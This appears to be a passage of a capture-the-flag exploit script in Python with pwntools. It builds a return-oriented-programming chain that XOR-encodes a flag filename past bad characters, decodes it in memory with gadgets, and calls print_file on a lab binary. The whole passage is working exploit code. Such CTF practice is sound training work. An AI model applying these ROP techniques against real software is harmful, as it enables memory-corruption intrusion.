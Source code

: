 ```py
    payload += xored_flag
    payload += p64(data_segment)
    payload += "\x00\x00\x00\x00\x00\x00\x00\x00" # to complete r14 with null bytes
    payload += "\x00\x00\x00\x00\x00\x00\x00\x00" # to complete r15 with null bytes
    payload += mov_r13_r12 # to put xored flag in data segment


def unxor_flag_string_in_segment():
    global data_segment, pop_r14_r15, payload
    xor_byte_ptr_r15_r14 = p64(0x400628)

    # to unXOR each chars
    for i in range(8):
        payload += pop_r14_r15 # to setup XOR key in r14 & data_segment in r15
        payload += p64(0x2) # XOR key
        payload += p64(data_segment + i)
        payload += xor_byte_ptr_r15_r14


def print_flag_via_print_file():
    global data_segment, payload
    pop_rdi = p64((rop.find_gadget(["pop rdi", "ret"]))[0])
    print_file_subroutine = p64(elf.symbols["print_file"])

    payload += pop_rdi
    payload += p64(data_segment)
    payload += print_file_subroutine

write_xored_flag_string_in_segment(), unxor_flag_string_in_segment(), print_flag_via_print_file()

p.recvuntil("> ")
p.sendline(payload)
p.interactive()
```
